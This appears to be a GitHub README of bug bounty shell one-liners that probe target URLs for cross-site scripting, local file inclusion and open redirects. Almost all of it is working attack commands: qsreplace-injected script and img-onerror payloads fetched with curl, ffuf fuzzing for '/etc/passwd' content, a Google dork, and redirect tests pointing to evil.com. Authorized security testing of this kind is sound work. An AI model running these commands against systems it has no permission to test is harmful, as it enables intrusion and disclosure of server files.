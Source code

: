 # BBH-commands
One-liners for finding various vulnerabilities

#XSS using GF patterns
cat test.txt | gf xss | grep 'source=' | qsreplace '"><script>confirm(1)</script>' | while read host; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo -e "$host \033[0;31mVulnerable\n"; done

#LFI using GF patterns
cat urls.txt | gf lfi | tee lfi.txt
cat lfi.txt | qsreplace FUZZ | while read url; do ffuf -u $url -mr "root:x" -w /path/to/LFI_payloads.txt ; done

#Google Dork for LFI on Windows Server:
site:http://example.com/ inurl:?filename= ext:aspx

#XSS with KXSS and Dalfox
cat urls.txt | kxss | sed 's/=.*/=/' | sed 's/URL: //' | dalfox pipe

#Open redirects:
cat urls.txt | grep -a -i \=http | qsreplace 'http://evil.com' | while read host; do curl -s -L "$host" -I | grep "evil.com" && echo -e "$host {Vulnerable}"; done

#XSS combined fuzzing:
cat urls.txt | gf xss | qsreplace '"><script>confirm(1)</script>' | tee combinedfuzz.json && cat combinedfuzz.json | while read host; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo -e "$host {VULNERABLE}\n" || echo -e "$host {Not Vulnerable}\n"; done

#Open redirects with Bhedak:
cat temu.txt | grep -a -i \=http | bhedak 'http://redirect.com' | while read host; do curl -s -L "$host" -I | grep "redirect.com" && echo -e "$host {Vulnerable}"; done

#XSS with uro and freq:
cat urls.txt | grep "=" | egrep -iv "\.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
